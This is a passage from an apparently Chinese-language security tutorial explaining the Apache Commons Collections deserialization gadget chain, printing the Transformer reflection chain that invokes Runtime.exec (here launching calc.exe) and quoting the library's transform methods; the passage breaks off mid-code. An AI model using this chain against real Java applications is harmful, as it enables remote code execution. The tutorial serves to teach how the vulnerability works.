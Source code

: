 ![](5.png)

这些类全都实现了抽象接口Transformer，该接口定义了transform方法来决定子类的行为，我们先直接贴出构造好的反射链：

```java
//定义待执行的命令:
String commandstring = "calc.exe";

Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),

    new InvokerTransformer(
        "getMethod",
        new Class[] {String.class, Class[].class},
        new Object[] {"getRuntime", new Class[0] }
    ),
    new InvokerTransformer(
        "invoke",
        new Class[] {Object.class,Object[].class },
        new Object[] {null, new Object[0] }
    ),
    new InvokerTransformer(
        "exec",
        new Class[] {String[].class },
        new Object[] { new String[] {commandstring} }
    )
};

// chainedTransFormer 会调用transform 方法，该方法依次调用转换器数组
Transformer transformedChain = new ChainedTransformer(transformers);
```

里面的几个Transformer存在A初始化B的关系，它们最终调用的都是自己的transform方法：

```java
// ChainedTransformer:
// 依次执行参数中Transformer数组的transform方法
    public Object transform(Object object) {
        for(int i = 0; i < this.iTransformers.length; ++i) {
            object = this.iTransformers[i].transform(object);
        }
        return object;
    }

// ConstantTransformer:
// 直接返回入参
    public Object transform(Object input) {
        return this.iConstant;
    }

// InvokerTransformer:
// 入参后的初始化
    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        this.iMethodName = methodName;
        this.iParamTypes = paramTypes;
        this.iArgs = args;
    }
//	RCE的构造关键之处
    public Object transform(Object input) {
        if (input == null) {
            return null;
        } else {
            try {
                // 利用反射机制实现代码执行
                Class cls = input.getClass();
```